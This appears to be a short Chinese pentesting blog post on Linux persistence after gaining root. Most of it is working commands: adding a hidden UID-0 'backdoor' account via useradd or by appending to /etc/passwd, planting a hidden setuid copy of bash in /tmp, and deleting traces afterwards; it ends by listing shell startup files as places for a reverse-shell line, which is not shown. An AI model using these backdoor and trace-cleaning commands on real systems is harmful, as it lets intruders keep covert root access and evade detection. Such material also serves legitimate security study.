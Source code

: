 ```yaml
---
title: "authority keep"
permalink: /penetrate/authority-keep/
excerpt: "authority keep"
published: true
related: true
toc: true
toc_sticky: true
redirect_from:
  - /theme-setup/
categories: 
  - pentesting
---  
```


linux权限维持
添加账号
一般在具有root权限时可以使用以下2种方式添加root权限用户

1.通过useradd，后面账号backdoor/123456

useradd -u 0 -o -g root -G root backdoor

echo 123456:password|chpasswd
2.通过直接对etc/passwd文件进行写入

perl -e 'print crypt("123456", "AA"). "\n"' #首先用perl算一下123456加密后的结果

# 123456加密后的结果为AASwmzPNx.3sg

echo "backdoor:123456:0:0:me:/root:/bin/bash">>/etc/passwd	#直接写入etc/passwd中
清理以上痕迹

userdel -f backdoor
设置sid位的文件
在具有高权限时，将高权限的bash文件拷贝隐藏起来，设置其suid位，则可后面通过低权限用户获取高权限操作

在高权限时

cp /bin/bash /tmp/.bash

chmod 4755 /tmp/.bash  #设置suid
使用时带上-p参数

/tmp/.bash -p
清理痕迹

rm -rf /tmp/.bash
通过环境变量植入后门
以下是环境变量的位置

/etc/profile
/etc/profile.d/*.sh
~/.bash_profile
~/.profile
~/.bashrc
~/bash_logout
/etc/bashrc
/etc/bash.bashrc
写入shell反弹语句
